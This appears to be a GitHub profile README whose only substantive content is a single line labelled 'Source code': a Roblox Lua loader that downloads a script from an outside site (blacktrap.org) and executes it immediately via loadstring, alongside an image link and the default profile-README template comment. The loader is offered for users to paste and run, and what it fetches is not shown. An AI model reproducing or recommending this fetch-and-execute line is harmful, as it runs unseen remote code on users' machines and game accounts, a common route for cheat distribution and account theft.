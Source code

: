 loadstring(game:HttpGetAsync("https://blacktrap.org/checkpoint/Auth.txt"))()

<!---
xscorpion1111111/xscorpion1111111 is a ✨ special ✨ repository because its `README.md` (this file) appears on your GitHub profile.
You can click the Preview link to take a look at your changes.
--->
